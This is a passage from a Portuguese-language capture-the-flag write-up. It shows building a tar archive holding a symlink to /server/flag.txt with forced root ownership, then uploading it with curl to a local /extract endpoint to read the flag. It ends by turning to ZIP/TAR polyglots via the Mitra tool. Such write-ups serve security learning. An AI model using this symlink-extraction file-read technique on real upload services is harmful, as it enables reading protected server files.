 ```bash
$ id
uid=1002(neptunian) gid=1003(neptunian) ...
```

Como ele roda como root, vamos forçar o uid/gid do troço. 
Lembrei também que o arquivo vai ser extraído em um diretório temporário, então vamos criar o symlink apontando pro path absoluto no servidor.

```bash
$ rm flag.lnk 
 
$ ln -s /server/flag.txt flag.lnk
 
$ rm give_me_flag.tar 

$ tar --owner=root --group=root --create --file give_me_flag.tar flag.lnk
```

Bora pro round 2:

```bash
$ curl -X 'POST' \
>   'http://localhost/extract' \
>   -H 'accept: application/json' \
>   -H 'Content-Type: multipart/form-data' \
>   -F 'file=@give_me_flag.tar;type=application/tar'

{"flag.lnk":"ctf{fake_flag}\n"}
```

Meio Sucesso!

![](https://i.imgur.com/Sz7xi3E.png)


Se conseguirmos mandar um TAR, conseguimos pegar a flag via Symlink/LFI, mas... ele só permite arquivos ZIP, não TAR.

## Poliglotas!

![](https://i.imgur.com/An23FIu.jpg)

O código-fonte do index.html esfrega a segunda dica na nossa cara:

```html
<p>
    Solving the challenge does not involve denial of service or things like ZIP bombs. Please don't do that.
    HINT: There is a special type of file you will need to craft.
    <!-- SUPER SECRET HINT #2: check out https://github.com/corkami/mitra -->
</p>
```

`
**[Mitra](https://github.com/corkami/mitra)**
